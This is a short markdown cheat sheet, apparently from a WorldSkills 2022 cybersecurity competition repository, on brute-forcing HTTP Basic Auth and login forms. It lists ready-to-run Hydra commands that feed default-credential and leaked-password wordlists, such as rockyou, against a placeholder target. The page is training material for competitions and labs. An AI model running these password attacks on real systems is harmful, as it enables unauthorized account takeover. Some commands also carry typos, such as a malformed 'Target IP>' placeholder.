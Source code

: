 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# Login Brue Forcing
Creared by Bujitha Ponsuge

## Brute Forcing Login Forms

# Commands
The Following are commands that you can use with Hydra to brute force an Basic HTTP Auth Form

## Brute Forcing Using Default Credentials using Hydra
|	Options		|	Description	|
|-----------|:-----------|
|<font color=red>-C </font>|Allows to use Combined Wordlists|
|<font color=red>http-get</font>|	This is the Request Method						|
|<font color=red>/</font> | The Target Path

Combined Wordlist

```console
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <PORT> http-get /
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

Username Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p <PASSWORD> -u -f Target IP> -s <PORT> http-get /
```

Password Brute Force

```console
hydra -l <USERNAME> -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

# Web Forms/Login Forms Brute Forcing using **Hydra**

Following Commands are usefull to brute force Login Forms (Admin Panels etc..) using the Hydra Module <font color=lightgreen> **http[s]-post-form**</font> 

> To Determine if the **http[s]-post-form** is the correct module to use. Type something into the login form and check if the URL has any of the inputs that you put in or if the URL change in anyway, If the URL does not change then the Web Application will be using an POST form. If the URL change and or have any of our inputs then its an GET form.
> 
> NOTE: If the URL changes then use the  http[s]-{head|get|post} module

